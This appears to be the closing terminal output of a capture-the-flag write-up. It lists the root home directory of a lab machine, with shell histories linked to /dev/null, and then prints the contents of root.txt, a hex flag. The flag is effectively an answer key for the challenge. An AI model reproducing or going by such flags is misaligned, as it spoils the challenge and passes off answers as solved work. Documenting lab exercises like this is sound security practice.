total 40
drwx------  5 root root 4096 Aug 14 13:37 .
drwxr-xr-x 19 root root 4096 Aug 14 14:11 ..
lrwxrwxrwx  1 root root    9 May 18 15:00 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Oct 15  2021 .bashrc
drwx------  2 root root 4096 Aug  8 10:10 .cache
-rw-------  1 root root   56 Aug 14 13:37 .lesshst
drwxr-xr-x  3 root root 4096 May 11 19:21 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
lrwxrwxrwx  1 root root    9 May 18 15:00 .psql_history -> /dev/null
drwx------  2 root root 4096 May  9 18:49 .ssh
-rw-r--r--  1 root root   39 Aug  8 10:19 .vimrc
-rw-r-----  1 root root   33 Sep 29 09:40 root.txt
# cat /root/root.txt	
c1ebbbd75d008ae7df2d10349a7d08ed
# 
```